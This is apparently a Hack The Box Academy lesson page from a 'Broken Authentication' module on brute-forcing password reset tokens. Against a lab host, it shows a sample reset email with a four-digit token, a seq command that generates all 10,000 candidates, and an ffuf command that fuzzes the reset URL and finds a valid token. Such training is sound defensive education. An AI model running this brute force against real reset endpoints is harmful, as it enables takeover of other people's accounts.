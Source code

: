 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/80/section/767
// Platform Version: V1
// Module ID: 80
// Module Name: Broken Authentication
// Module Difficulty: Medium
// Section ID: 767
// Section Title: Brute-Forcing Password Reset Tokens
// Page Title: Hack The Box - Academy
// Page Number: 5
-->

# Brute-Forcing Password Reset Tokens

**Module Name:** Broken Authentication **Page Number:** 5

#### 

#### BROKEN AUTHENTICATION

# Brute-Forcing Password Reset Tokens

## Identifying Weak Reset Tokens

![https://academy.hackthebox.com/storage/modules/269/bf/reset_bf_1.png](https://academy.hackthebox.com/storage/modules/269/bf/reset_bf_1.png)

```
Hello,

We have received a request to reset the password associated with your account. To proceed with resetting your password, please follow the instructions below:

1. Click on the following link to reset your password: Click

2. If the above link doesn't work, copy and paste the following URL into your web browser: http://weak_reset.htb/reset_password.php?token=7351

Please note that this link will expire in 24 hours, so please complete the password reset process as soon as possible. If you did not request a password reset, please disregard this e-mail.

Thank you.
```

## Attacking Weak Reset Tokens

``` shell-session
ndefstathiou@htb[/htb]$ seq -w 0 9999 > tokens.txt
```

``` shell-session
ndefstathiou@htb[/htb]$ head tokens.txt

0000
0001
0002
0003
0004
0005
0006
0007
0008
0009
```

``` shell-session
ndefstathiou@htb[/htb]$ ffuf -w ./tokens.txt -u http://weak_reset.htb/reset_password.php?token=FUZZ -fr "The provided token is invalid"

<SNIP>

[Status: 200, Size: 2667, Words: 538, Lines: 90, Duration: 1ms]
    * FUZZ: 6182
```

![https://academy.hackthebox.com/storage/modules/269/bf/reset_bf_2.png](https://academy.hackthebox.com/storage/modules/269/bf/reset_bf_2.png)

# 

# 

#### Questions

####